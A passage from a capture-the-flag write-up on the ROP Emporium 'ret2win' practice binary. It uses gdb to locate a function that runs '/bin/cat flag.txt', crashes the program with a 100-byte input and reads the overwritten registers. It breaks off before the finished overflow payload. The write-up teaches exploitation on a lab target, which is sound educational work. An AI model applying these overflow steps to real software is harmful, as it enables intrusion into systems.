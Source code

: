 Let's take a look at what is in that memory address, using eXamine like we did before:
```
gdb-peda$ x/s 0x400943
0x400943:	"/bin/cat flag.txt"
```
So basically this function calls system(/bin/cat flag.txt) which is exactly what we want to achieve. This means that we need to identify the address of this function and then figure out for the binary to divert to this address.

We can simply run the following inside gdb to find the address of the function:
```
gdb-peda$ info addr ret2win
Symbol "ret2win" is at 0x400756 in a file compiled without debugging.
```

Great now we know that the address for ret2win is at 0x400756. Okay now let's work out how to gain control of the execution flow. This program takes user input from stdin so, let's just chuck some data in there and see what happens. For this next part we'll just feed the program 100 A's using python. I've broken up the output of this next command to help understand it bit by bit:
```
gdb-peda$ run < <(python -c 'print("A"*100)')
Starting program: /home/user/Downloads/ropemporium/ret2win < <(python -c 'print("A"*100)')
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!

Program received signal SIGSEGV, Segmentation fault.
```

So, when we provided the program 100 A's it crashed the program. This is exactly what we want. That means, the data we provided, must have overwritten some address required on the stack. Let's take a look at the registers:

```
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x0 
RCX: 0x7ffff7ee4504 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fb78c0 --> 0x0 
RSI: 0x7ffff7fb67e3 --> 0xfb78c0000000000a 
RDI: 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')              <--- our "A"s
RSP: 0x7fffffffe138 ('A' <repeats 16 times>, "\233\340\341\367\377\177") <--- more of our "A"s
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0x7ffff7fbc500 (0x00007ffff7fbc500)
R9 : 0x7ffff7fbc500 (0x00007ffff7fbc500)
R10: 0xfffffffffffff40e 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe220 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```
